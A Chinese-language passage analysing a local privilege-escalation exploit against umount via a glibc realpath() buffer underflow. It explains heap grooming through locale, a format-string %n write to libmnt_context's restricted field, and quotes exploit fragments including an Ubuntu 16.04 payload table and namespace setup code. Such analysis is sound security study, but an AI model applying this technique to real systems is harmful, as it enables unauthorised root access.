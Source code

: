 简单地说一下 mount namespace，它用于隔离文件系统的挂载点，使得不同的 mount namespace 拥有自己独立的不会互相影响的挂载点信息，当前进程所在的 mount namespace 里的所有挂载信息在 `/proc/[pid]/mounts`、`/proc/[pid]/mountinfo` 和 `/proc/[pid]/mountstats` 里面。每个 mount namespace 都拥有一份自己的挂载点列表，当用 clone 或者 unshare 函数创建了新的 mount namespace 时，新创建的 namespace 会复制走一份原来 namespace 里的挂载点列表，但从这之后，两个 namespace 就没有关系了。

首先为了提权，我们需要一个 SUID 程序，mount 和 umount 是比较好的选择，因为它们都依赖于 `realpath()` 来解析路径，而且能被所有用户使用。其中 umount 又最理想，因为它一次运行可以操作多个挂载点，从而可以多次触发到漏洞代码。

由于 umount 的 `realpath()` 的操作发生在堆上，第一步就得考虑怎样去创造一个可重现的堆布局。通过移除可能造成干扰的环境变量，仅保留 locale 即可做到这一点。locale 在 glibc 或者其它需要本地化的程序和库中被用来解析文本（如时间、日期等），它会在 umount 参数解析之前进行初始化，所以会影响到堆的结构和位于 `realpath()` 函数缓冲区前面的那些低地址的内容。漏洞的利用依赖于单个 locale 的可用性，在标准系统中，libc 提供了一个 `/usr/lib/locale/C.UTF-8`，它通过环境变量 `LC_ALL=C.UTF-8` 进行加载。

在 locale 被设置后，缓冲区下溢将覆盖 locale 中用于加载 national language support(NLS) 的字符串中的一个 `/`，进而将其更改为相对路径。然后，用户控制的 umount 错误信息的翻译将被加载，使用 fprintf() 函数的 `%n` 格式化字符串，即可对一些内存地址进行写操作。由于 fprintf() 所使用的堆栈布局是固定的，所以可以忽略 ASLR 的影响。于是我们就可以利用该特性覆盖掉 `libmnt_context` 结构体中的 `restricted` 字段：
```c
// util-linux/libmount/src/mountP.h
struct libmnt_context
{
	int	action;		/* MNT_ACT_{MOUNT,UMOUNT} */
	int	restricted;	/* root or not? */

	char	*fstype_pattern;	/* for mnt_match_fstype() */
	char	*optstr_pattern;	/* for mnt_match_options() */

	[...]
};
```
在安装文件系统时，挂载点目录的原始内容会被隐藏起来并且不可用，直到被卸载。但是，挂载点目录的所有者和权限没有被隐藏，其中 `restricted` 标志用于限制堆挂载文件系统的访问。如果我们将该值覆盖，umount 会误以为挂载是从 root 开始的。于是可以通过卸载 root 文件系统做到一个简单的 DoS（如参考文章中所示，可以在Debian下尝试）。

当然我们使用的 Ubuntu16.04 也是在漏洞利用支持范围内的：
```c
static char* osSpecificExploitDataList[]={
// Ubuntu Xenial libc=2.23-0ubuntu9
    "\"16.04.3 LTS (Xenial Xerus)\"",
    "../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A",
    "_nl_load_locale_from_archive",
    "\x07\0\0\0\x26\0\0\0\x40\0\0\0\xd0\xf5\x09\x00\xf0\xc1\x0a\x00"
	};
```

`prepareNamespacedProcess()` 函数如下所示：
```c
static int usernsChildFunction() {
  [...]
  int result=mount("tmpfs", "/tmp", "tmpfs", MS_MGC_VAL, NULL);	// 将 tmpfs 类型的文件系统 tmpfs 挂载到 /tmp
  [...]
}

pid_t prepareNamespacedProcess() {
  if(namespacedProcessPid==-1) {
    [...]
    namespacedProcessPid=clone(usernsChildFunction, stackData+(1<<20),
        CLONE_NEWUSER|CLONE_NEWNS|SIGCHLD, NULL);	// 调用 clone() 创建进程，新进程执行函数 usernsChildFunction()
    [...]
  char pathBuffer[PATH_MAX];
  int result=snprintf(pathBuffer, sizeof(pathBuffer), "/proc/%d/cwd",
     namespacedProcessPid);
  char *namespaceMountBaseDir=strdup(pathBuffer);	// /proc/[pid]/cwd 是一个符号连接, 指向进程当前的工作目录

// Create directories needed for umount to proceed to final state
// "not mounted".
```